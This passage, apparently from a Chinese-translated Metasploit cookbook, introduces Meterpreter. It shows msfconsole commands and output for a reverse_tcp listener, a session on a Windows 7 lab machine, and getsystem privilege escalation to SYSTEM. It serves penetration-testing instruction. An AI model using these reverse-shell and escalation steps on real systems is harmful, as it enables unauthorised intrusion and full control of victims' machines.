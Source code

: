 让我们从对 meterpreter 的快速介绍开始。Meterpreter 是一个高级有效载荷，极大地增强了对目标机器上命令执行的能力。它是一个命令解释器，通过内存中的 DLL 注入工作，并为我们提供了许多优势，相对于传统的命令解释器（通常存在于 shell 代码）来说，它更加灵活、稳定和可扩展。它可以像几个有效载荷一起在目标机器上工作。它通过分段套接字进行通信，并提供了全面的客户端端 ruby API。我们可以使用`windows/meterpreter`目录中可用的有效载荷来获得 meterpreter shell。在这个示例中，我们将使用`windows/meterpreter/reverse_tcp`有效载荷，我们的目标机器是运行 ESET NOD32 杀毒软件的 Windows 7。

让我们在 msfconsole 中设置监听器，并等待一个反向连接。

```
msf > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST 192.168.56.101 yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.56.101:4444
[*] Starting the payload handler... 
```

## 如何做到...

1.  所以我们的监听器现在已经准备好了。一旦客户端攻击成功地在目标上执行，我们将在 msfconsole 中打开一个 meterpreter 会话。

```
    [*] Sending stage (752128 bytes) to 192.168.56.1
    [*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:49188) at 2011-11-29 13:26:55 +0530
    meterpreter > 
    ```

1.  现在，我们已经准备好利用 meterpreter 在我们的杀毒实验中的力量。我们将执行的第一个命令是`getuid`，它会给我们系统的用户名，我们已经破解了。用户可以是主管理员或者是一个权限较低的用户。

```
    meterpreter > getuid
    Server username: DARKLORD-PC\DARKLORD 
    ```

1.  看起来我们在刚刚渗透的系统中没有管理员特权。下一步将是提升我们的特权到管理员，以便我们可以在目标上执行命令而不受干扰。我们将使用`getsystem`命令，尝试将我们的特权从本地用户提升到管理员。

```
    meterpreter > getsystem
    ...got system (via technique 4).. 
    ```

1.  我们可以看到`getsystem`成功地使用`技术 4`，也就是 KiTrap0D 漏洞，提升了我们在渗透系统上的特权。我们可以再次使用`getuid`命令来检查我们新提升的 ID。

```
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM 
    ```
